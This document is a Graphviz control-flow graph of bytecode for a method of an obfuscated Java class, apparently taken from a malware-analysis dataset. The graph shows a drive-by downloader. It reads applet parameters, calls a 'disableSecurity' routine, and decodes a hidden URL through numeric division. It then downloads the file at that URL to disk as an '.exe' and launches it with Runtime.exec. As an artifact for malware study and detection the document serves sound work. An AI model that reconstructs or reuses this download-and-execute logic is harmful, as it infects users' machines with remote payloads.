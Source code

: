 digraph "" {
    "r0 := @this: BctqfdgqbUZhLRQBoSuT"
    "load.r r0"
    "r0 := @this: BctqfdgqbUZhLRQBoSuT"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"f\""
    "load.r r0"->"push \"f\"";
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>"
    "push \"f\""->"virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"a\""
    "load.r r0"->"push \"a\"";
    "push \"a\""->"virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: void disableSecurity(java.lang.String,java.lang.String)>"
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <BctqfdgqbUZhLRQBoSuT: void disableSecurity(java.lang.String,java.lang.String)>";
    "new java.lang.StringBuffer"
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: void disableSecurity(java.lang.String,java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r4"
    "new java.lang.StringBuffer"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "push \"FXjoeqDtCcfQ\""
    "load.r r0"->"push \"FXjoeqDtCcfQ\"";
    "push \"FXjoeqDtCcfQ\""->"virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r6"
    "new java.lang.StringBuffer"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push 5"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push 5";
    "store.i $r22"
    "push 5"->"store.i $r22";
    "store.i $r22"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"push 5";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"
    "push 5"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r0";
    "store.i r0"->"load.r r6";
    "new java.lang.Character"
    "load.r r6"->"new java.lang.Character";
    "dup1.r"
    "new java.lang.Character"->"dup1.r";
    "dup1.r"->"load.r r4";
    "load.i $r22"
    "load.r r4"->"load.i $r22";
    "load.i $r22"->"load.i $r22";
    "load.i $r22"->"push 5";
    "add.i"
    "push 5"->"add.i";
    "add.i"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "load.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i r0";
    "div.i"
    "load.i r0"->"div.i";
    "i2c"
    "div.i"->"i2c";
    "specialinvoke <java.lang.Character: void <init>(char)>"
    "i2c"->"specialinvoke <java.lang.Character: void <init>(char)>";
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"
    "specialinvoke <java.lang.Character: void <init>(char)>"->"virtualinvoke <java.lang.Character: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"pop";
    "inc.i $r22 5"
    "pop"->"inc.i $r22 5";
    "inc.i $r22 5"->"load.i $r22";
    "load.i $r22"->"load.r r4";
    "virtualinvoke <java.lang.StringBuffer: int length()>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuffer: int length()>";
    "ifcmplt.i load.r r6"
    "virtualinvoke <java.lang.StringBuffer: int length()>"->"ifcmplt.i load.r r6";
    "goto staticget <java.lang.System: java.io.PrintStream out>"
    "ifcmplt.i load.r r6"->"goto staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "goto staticget <java.lang.System: java.io.PrintStream out>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r6";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \".e\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \".e\"";
    "push \"xe\""
    "push \".e\""->"push \"xe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"xe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String sortBy(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String sortBy(java.lang.String)>";
    "store.r r0"
    "staticinvoke <BctqfdgqbUZhLRQBoSuT: java.lang.String sortBy(java.lang.String)>"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "push 1024"
    "pop"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i7"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i7";
    "load.i $i7"
    "store.i $i7"->"load.i $i7";
    "push -1"
    "load.i $i7"->"push -1";
    "ifcmpeq.i load.r $r22"
    "push -1"->"ifcmpeq.i load.r $r22";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i7";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i7"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "goto load.r r4"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
}
